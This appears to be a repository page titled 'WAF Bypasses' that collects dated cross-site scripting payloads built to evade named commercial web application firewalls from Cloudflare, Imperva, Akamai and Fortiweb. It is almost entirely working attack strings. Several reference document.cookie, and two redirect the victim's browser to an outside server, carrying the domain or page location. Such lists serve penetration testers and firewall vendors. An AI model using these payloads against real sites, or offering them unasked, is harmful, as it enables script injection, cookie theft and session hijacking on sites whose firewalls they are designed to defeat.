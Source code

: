 # WAF Bypasses

The payloads are headed by the date of discovery of the bypass.

### Cloudflare

```csharp
//24-10-2021:
<svg onload=alert&#0000000040document.cookie)>

//06-10-2021:
";(a=alert,b=1,a(b))

//17-08-2021:
"<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; >"

//04-08-2021:
%27%09);%0d%0a%09%09[1].find(alert)//

//22-05-2021:
"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

//12-04-2021:
<svg/onload=location/**/='https://your.server/'+document.domain>

//25-02-2021:
<svg onx=() onload=(confirm)(1)>

//25-01-2021:
<svg/onrandom=random onload=confirm(1)>

//11-01-2021:
<svg onload=alert%26%230000000040"1")>

//23-12-2020:
<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert`1`;>
```

### Imperva

```javascript
//24-02-2021:
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click
```

### Akamai

```javascript
//28-09-2021:
"><a/\test="%26quot;x%26quot;"href='%01javascript:/*%b1*/;location.assign("//hackerone.com/stealthy?x="+location)'>Click

//13-12-2020:
<marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\``'>

//28-10-2018:
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```

### Fortiweb

```javascript
//09-07-2019:
\u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
```
